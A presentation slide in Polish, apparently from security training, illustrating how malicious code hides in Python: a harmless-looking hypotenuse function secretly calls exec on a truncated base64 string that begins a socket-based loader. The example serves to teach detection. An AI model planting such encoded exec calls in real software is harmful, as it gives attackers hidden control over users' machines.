

# Ukrywanie złośliwego kodu
Podejrzana zawartość w kodzie Pythona wygląda tak:
import math
import base64,sys
def hello():
	exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdHJ1Y3Qs...'))
def hypotenuse(a,b):
	hello()
	c = math.sqrt(math.pow(a,2) + math.pow(b,2))
	return round(c,2)
def other(c,x):
	y = math.sqrt(math.pow(c,2)-math.pow(x,2))
	return round(y,2)